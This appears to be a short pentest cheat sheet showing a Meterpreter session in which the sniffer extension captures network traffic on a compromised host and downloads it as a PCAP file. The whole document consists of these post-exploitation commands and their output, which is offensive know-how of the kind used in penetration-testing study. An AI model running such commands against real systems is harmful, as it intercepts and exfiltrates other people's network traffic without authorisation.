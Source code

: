 # Sniffer

## Sniff traffic

`meterpreter > use sniffer`

\`\`\``Loading extension sniffer...Success.  
meterpreter >  
meterpreter > sniffer_interfaces`

`1 - 'VMware Accelerated AMD PCNet Adapter' ( type:0 mtu:1514 usable:true dhcp:false wifi:false )`

`meterpreter > sniffer_start 1  
[`_`] Capture started on interface 1 (50000 packet buffer)  
meterpreter > ping 10.11.1.7  
[-] Unknown command: ping.  
meterpreter > sniffer_sta  
sniffer_start sniffer_stats  
meterpreter > sniffer_sta sniffer_start sniffer_stats  
meterpreter > sniffer_sta sniffer_start sniffer_stats  
meterpreter > sniffer_stats 1 [`_`] Capture statistics for interface 1 packets: 8359 bytes: 909444 meterpreter > sniffer_dump 1 /tmp/all.cap [`_`] Flushing packet capture buffer for interface 1... [`_`] Flushed 8621 packets (1154664 bytes) [`_`] Downloaded 045% (524288/1154664)... [`_`] Downloaded 090% (1048576/1154664)... [`_`] Downloaded 100% (1154664/1154664)... [`_`] Download completed, converting to PCAP... [*] PCAP file written to /tmp/all.cap`\`\`\`

